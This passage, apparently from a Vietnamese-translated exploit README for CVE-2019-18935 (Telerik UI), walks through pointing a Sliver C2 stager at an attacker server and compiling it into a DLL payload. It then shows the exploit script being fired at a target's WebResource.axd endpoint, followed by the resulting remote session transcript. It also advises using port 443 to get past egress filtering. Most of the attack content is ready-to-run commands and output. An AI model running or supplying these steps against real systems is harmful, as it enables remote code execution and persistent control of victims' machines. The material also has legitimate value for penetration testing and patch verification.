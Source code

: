 Đặt máy chủ và cổng trong nguồn Sliver stager trỏ đến máy chủ Sliver (hiển thị một máy chủ mẫu bên dưới)

```shell
sed -Ei .bu 's/<HOST>/sliverserver.bishopfox.com/; s/<PORT>/443/' sliver-stager.c
```

Biên dịch tải trọng của Sliver stager, và tải trọng tải lên mục tiêu và tải nó vào ứng dụng (tất cả theo các phần Sử dụng trước đó trong README này).

```powershell
> .\build-dll.bat sliver-stager.c x86

$ python3 CVE-2019-18935.py -v 2017 -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau -p payloads/sliver-stager-2020080514261722-x86.dll
```

Nếu mọi việc suôn sẻ (bạn có gặp [rắc rối](https://github.com/noperator/CVE-2019-18935/blob/master/README.md#Troubleshooting) với mục tiêu này không?), Bạn sẽ thấy một phiên được tạo trong cửa sổ máy chủ Sliver mà bạn có thể sử dụng để tương tác với mục tiêu.

```shell
[*] Session #1 AFRAID_COMPUTER - <REMOTE-ADDRESS> (DESKTOP-D19S4Q2) - windows/386 - Wed, 05 Aug 2020 15:58:27 UTC

sliver > use 1

[*] Active session AFRAID_COMPUTER (1)

sliver (AFRAID_COMPUTER) > help

Commands:
=========
  clear  clear the screen
  exit   exit the shell
  help   use 'help [command]' for command help
  ...
  whoami             Get session user execution context

sliver (AFRAID_COMPUTER) > whoami

DESKTOP-D19S4Q2\tester
```

## Troubleshooting

+ Mỗi trọng tải chỉ hoạt động một lần — lớp .NET `AssemblyInstaller` không thể tải nhiều hợp ngữ .NET có cùng tên hợp ngữ (khác với _filename_). Bạn sẽ cần phải biên dịch và tải lên một cái mới mỗi khi bạn muốn mục tiêu chuyển sang chế độ ngủ, gọi lại, v.v.

+ Đảm bảo bạn đang nhắm mục tiêu đúng kiến trúc CPU (32 hoặc 64-bit). Điều này có thể mất một số phỏng đoán; tải trọng giấc ngủ rất hữu ích ở đây.

+ Cẩn thận với các quy tắc lọc đầu ra trên mạng đích khi cố gắng khởi tạo một kết nối TCP ngược trở lại máy chủ C2 của bạn. Chọn một cổng TCP thường được phép, như 443.
